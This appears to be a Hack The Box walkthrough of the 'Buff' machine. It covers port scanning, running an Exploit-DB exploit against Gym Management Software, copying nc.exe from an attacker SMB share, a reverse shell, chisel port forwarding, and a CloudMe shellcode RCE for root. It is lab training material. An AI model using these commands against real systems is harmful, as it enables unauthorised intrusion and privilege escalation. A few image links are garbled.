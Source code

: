 ## Buff

Difficulty: Easy
https://app.hackthebox.com/machines/Buff

### User Flag

```
rustscan -a 10.10.10.198 --ulimit -- -A -sV -sC -oN nmap.txt -Pn
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/5506a998-60cc-45eb-be44-cf49dea692e8)

<br>

Port 8080 is open and in contact section we enumerate the CMS: Made using Gym Management Software 1.0

![site](https://github.com/b1d0ws/OSCP/assets/58514930/badaaa0f-ea25-4ae0-a8c4-e519abd76cf4)

![cmsVersion](https://github.com/b1d0ws/OSCP/assets/58514930/b21ee933-5eda-45c7-a32f-d3360b7edca7)

<br>

Searching exploits, we find this [one](https://www.exploit-db.com/exploits/48506).

```
python2 exploit.py http://10.10.10.198:8080/
```

![initialAccess](https://github.com/b1d0ws/OSCP/assets/58514930/23f83171-c9c1-4781-b615-8c3d9d489e76)

<br>

Here you can already get the user flag, but our shell is limited, so let's upgrade it.

### Upgrading Shell and Transferring Files with SMB

First we share the directory with smb.

```
smbserver.py share . -smb2support -username df -password df
```

![smbServer](https://github.com/b1d0ws/OSCP/assets/58514930/031c3cd2-95e1-4c6f-b582-4e6972f4944d)

<br>

Then we get the nc binary in the victim connecting to the smb of the attacker.

```bash
net use \\10.10.14.3\s /u:df df
copy \\10.10.14.3\share\nc.exe \programdata\nc.exe
```

![transferringNC](https://github.com/b1d0ws/OSCP/assets/58514930/25057ea7-cf46-4a87-b7dc-a5d7bfca749f)

After that, send the reverse shell with nc.

![ncReverse](https://github.com/b1d0ws/OSCP/assets/58514930/305dd616-147d-4347-8fb5-d4781bbe3b6c)

![gettingReverseShell](https://github.com/b1d0ws/OSCP/assets/58514930/f1dc80f4-0a78-4e9d-87db-25945669c581)

### Root Flag

Enumerating the machine, we find this binary of CloudMe application. It seems that is running on port 8888.

![cloudMeApplication](https://github.com/b1d0ws/OSCP/assets/58514930/edc11e8f-5f70-492!)

[netstat](https://github.com/b1d0ws/OSCP/assets/58514930/67ab041b-bd7a-4651-a390-8f9687a638c6)
3-a22e-aead5fd75ac2)

<br>

Searching for this application, we see that exists a RCE vulnerability, but to exploit we need to port forward the internal port to our host.

![searchsploitCloudMe](https://github.com/b1d0ws/OSCP/assets/58514930/d1f4c645-f62d-41ec-82a1-ab94b7b4bcf8)

<br>

Chisel Port Forward (you need to upload chisel binary as we did with nc):

```
chisel server -p 8000 --reverse
\programdata\chisel.exe client 10.10.14.3:8000 R:8888:127.0.0.1:8888
```

![chiselServer](https://github.com/b1d0ws/OSCP/assets/58514930/45ac9231-5aa2-45fc-9556-50a21c6a8f1f)

![chiselClient](https://github.com/b1d0ws/OSCP/assets/58514930/910b26ce-f3c5-427a-a85a-8818522c9735)

<br>

Generate the shellcode and put it inside the exploit and execute it a few times until it works.

![shellcode](https://github.com/b1d0ws/OSCP/assets/58514930/661aa01d-4610-4484-89de-291ff3957a01)

![rootExploit](https://github.com/b1d0ws/OSCP/assets/58514930/0b79ff01-5f79-4cff-baf5-cd775df6a7e2)






